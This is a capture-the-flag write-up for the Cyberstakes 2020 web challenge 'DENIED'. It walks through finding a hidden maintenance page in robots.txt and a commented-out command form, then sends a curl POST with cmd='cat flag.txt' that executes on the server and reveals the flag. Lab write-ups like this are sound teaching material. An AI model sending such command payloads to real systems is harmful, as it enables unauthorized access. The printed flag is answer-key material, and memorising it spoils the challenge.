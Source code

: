 
# DENIED

* **Category**: Web Security
* **Points**: 75
* **Challenge**: Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:27856 The flag is in flag.txt.
* **Hint #1**: How can websites keep search engines from finding private information?
* **Hint #2**: Sometimes the developers leave some comments that give you a hint about what to do...
* **Hint #3**: You can use the cat command to read files

<br />

First, lets navigate to the site in a web browser:

<br />

![site](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/site.JPG)

<br />

Based on the hints and the image of a robot, lets look at the robots.txt file:

```
curl http://challenge.acictf.com:27856/robots.txt

User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

<br />

Now we navigate to the disallowed page, `/maintenance_foo_bar_deadbeef_12345.html`:

<br />

![maintenance](https://github.com/eesantiago/Writeups/blob/master/cyberstakes/2020/denied/screenshots/maintenance.JPG)

<br />

So the page tells us to *run a command*.  Lets looks at the source of the page to see if their are any hints on how to do this:
```
*...snip...*

        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->

*...snip...*
```

<br />

Lets use `curl` to send a POST request to this insecure page with the parameter *cmd* and the value of *cat flag.txt*:
```

curl http://challenge.acictf.com:27856/secret_maintenance_foo_543212345 -X POST --form cmd='cat flag.txt'

```
*...snip...*

<h1>Maintenance</h1>
        <!--
            Disabled for being insecure... oops!
        <form action="/secret_maintenance_foo_543212345", method="POST">
            <input name="cmd"/>
        </form>-->
        <p>Result: ACI{ccdcb229da85c8d0a6a239edb19} </p>

*...snip...*  
```

<br />

##Flag: ACI{ccdcb229da85c8d0a6a239edb19}

